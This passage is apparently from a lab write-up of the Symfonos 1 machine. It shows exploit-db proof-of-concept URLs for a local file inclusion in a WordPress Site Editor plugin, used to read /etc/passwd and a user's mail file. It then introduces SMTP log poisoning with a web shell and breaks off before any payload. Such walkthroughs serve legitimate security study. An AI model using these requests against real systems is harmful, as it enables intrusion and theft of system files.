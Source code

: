 I found the exploit in [exploitdb](https://www.exploit-db.com/exploits/44340), downloaded it and analyzed the proof of concept.

```bash
root@kali:~$ wget https://www.exploit-db.com/download/44340
root@kali:~$ cat 44340
...
 ** Proof of Concept **
http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
...
```

## Exploitation
### Local File Inclusion

Later I check the proof of concept requesting the system **passwd** file and we obtain its content.

```bash
http://symfonos.local/h3l105/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```
![](/assets/images/symfonos1/screenshot-2.png)

If we remember the SMTP service is running, so I verify if it's possible to inject the logs file, and how we can see the helios log file is getting, note the helios mail address, note we found the helios mail address. 

```bash
http://symfonos.local/h3l105/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/mail/helios
```
![](/assets/images/symfonos1/screenshot-3.png)

### SMTP Log Poisoning
With the helios mail address, we will try to send you an email with an injected web shell, as shown below:
